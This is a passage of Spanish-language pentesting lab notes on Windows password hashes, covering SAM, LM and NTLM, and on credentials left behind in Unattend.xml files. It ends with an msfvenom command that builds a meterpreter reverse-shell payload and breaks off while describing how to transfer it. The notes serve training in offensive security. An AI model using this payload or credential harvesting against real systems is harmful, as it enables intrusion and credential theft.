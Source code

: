 <h1 align="center">Windows Password Hashes</h1>

El “hashing” es el proceso de convertir un trozo de información en otro valor, con la intencion de cifrar el contenido gracias al algoritmo de cifrado. Los hashes de las cuentas de usuario de Windows de almacenan en el SAM (Security Acounts Manager).

La autenticación y verificación de las credenciales las realizar el LSA (Local Security Authority).

A partir de Windows Server 2003 existen dos tipos de hashes: LM y NTLM. A partir de Windows vista, solamente exite NTLM

## **SAM DATABASE**

Security Acounts Manager (SAM) es una base de datos donde se encuentran hasheadas las cuentas de usuarios y contraseñas de Windows. Esta base de datos no se puede copiar mientras está corriendo el SO.

Por eso, los atacantes utilizan herramientas para conseguir los hashes. En versiones modernas de windows se necesita una key para desencriptar la base de datos SAM

## **LM (LanMan)**

Es un formato de cifrado que se utilizaba antes (antes de NT 4.0) para cifrar las contraseñas de usuarios pero es debil y facil de desencriptar con fuerza bruta

## **NTLM (NTHash)**

Es un formato de cifrado que se utiliza para facilitar la comunicacion entre equipos. Cuando se crea una cuenta de usuario, se encripta usando el algoritmo de hashing MD4, mientras que la contraseña original se descarta. Es un cifrado mas potente que LM pero pueden ser descifradas con fuerza bruta

Buscando Contraseñas En Archivos De Configuración de Windows

Cuando queremos instalar Windows en mas de dos equipos, para no hacerlo de forma manual, podemos utilizar el “Unattended setup utility” (usualmente llamado unattend.xml), que es un archivo que contiene todas las respuestas necesarias para la instalacion de Windows como: fecha, hora, credenciales del usuario administrador…

Si los archivos de configuracion que gerera “Unattended setup utility” se dejan después de la instalación en el sistema, puede revelar credenciales de usuario. Por eso, tenemos que eliminar todos estos archivos.

Dependiendo de la version de Windows pueden estar cifrados en base64 y pueden guardarse en:

- `C:\Windows\Panther\Unattend.xml`
- `C:\Windows\Panther\Autounattend.xml`

## Puesta en practica:

En esta practica tenemos acceso a una shell de la máquina windows, para conseguir una sesion de meterpreter tenemos que crear el payload con msfvenom, al ser de 64bits utilizaremos el siguiente:

- `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=*ip* LPORT=*1234* -f exe > payload.exe`

Para pasar este payload a la máquina windows nos abrimos un servidor web con python:
